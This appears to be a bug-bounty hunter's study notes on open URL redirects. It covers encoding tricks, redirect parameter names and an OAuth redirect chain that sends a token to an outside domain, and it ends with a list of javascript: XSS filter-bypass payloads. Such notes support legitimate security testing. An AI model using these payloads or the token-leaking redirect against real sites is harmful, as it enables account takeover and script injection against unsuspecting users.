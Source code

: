Since CSRF enables us to make requests under another user, can we force a user to be charged?

## Open url redirects
Common in programs that use oauth with tokens and a redirect     

encode: & ? # / \  
- App will decode AFTER first redirect
- sometimes need to double encode

Could be dropped because of:
* too many redirects
* too many parameters

ex redirect:   
normal: `https://www.target.com/login?client_id=123&redirect_url=/sosecure`  
bad: `https://www.target.com/login?client_id=123&redirect_url=https://www.target.com/redirect?redirect=1&url=https://www.zseano.com/`
- this example leads to token being sent to zseano.com

### Keywords for redirection
```
goto
redirect
location
url
link
dest / destination
referer
forward
```

### Common issues
* Not ecoding values correctly
    - especially if target allows for /localRedirects

### Google searching for vuln endpoints
```
return, return_url, rUrl, cancelUrl, url, redirect, follow, goto, returnTo, returnUrl, r_url, history, goback, redirectTo, redirectUrl, redirUrl
```


### Is XSS possible?
- redirect -> Location: (not possible)
- redirect -> window.location: (test for js)

common bypass filters:  
```
java%0d%0ascript%0d%0a:alert(0)
j%0d%0aava%0d%0aas%0d%0acrip%0d%0at%0d%0a:confirm`0`
java%07script:prompt`0`
java%09scrip%07t:prompt`0`
jjavascriptajavascriptvjavascriptajavascriptsjavascriptcjavascriptrjavascriptijavascript
pjavascriptt:confirm`0`

```
